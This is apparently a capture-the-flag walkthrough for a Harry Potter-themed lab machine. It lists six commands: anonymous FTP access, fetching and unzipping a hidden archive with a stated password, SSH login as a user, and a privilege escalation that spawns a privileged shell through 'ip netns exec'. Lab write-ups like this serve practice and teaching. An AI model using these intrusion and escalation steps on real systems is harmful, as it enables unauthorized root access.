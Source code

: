 # Hogwards
1. `ftp $IP -p 7259` and anonymous
2. `get .I_saved_it_harry.zip`
3. `unzip .I_saved_it_harry.zip` passwod is:`qwer1234`
4. `ssh -l neville -p 9075 $IP`
5. `ip netns add foo`
6. `ip netns exec foo /bin/sh -p`
